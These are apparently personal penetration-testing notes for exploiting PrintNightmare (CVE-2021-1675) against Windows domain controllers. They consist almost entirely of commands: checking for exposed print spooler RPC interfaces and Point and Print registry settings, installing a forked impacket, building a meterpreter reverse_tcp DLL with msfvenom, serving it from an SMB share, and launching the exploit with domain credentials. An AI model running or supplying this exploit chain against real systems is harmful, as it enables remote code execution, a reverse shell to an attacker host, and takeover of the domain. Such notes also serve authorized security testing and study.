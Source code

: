 ```yaml
---
tags:
  - Domain-Admin
  - Initial-Access
  - Lateral-Movement
  - Privilege-Escalation
  - AD
---
```

[https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)
## Identify
---
```PowerShell
 rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```
```PowerShell
REG QUERY "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint"
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint
    RestrictDriverInstallationToAdministrators    REG_DWORD    0x0
    NoWarningNoElevationOnInstall    REG_DWORD    0x1
```
  
## Exploit
---
You need bros version of impacket
```PowerShell
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```
**Generate DLL payload**
```PowerShell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST= LPORT=8080 -f dll > timsync.dll
```
Host payload on smbserver
```PowerShell
sudo smbserver.py -smb2support ITShare share
```
Start listener, execute payload
```PowerShell
sudo python3 CVE-2021-1675.py domain.local/user:'password'@<dcip> '\\<attackhost>\ITShare\timesync.dll'
```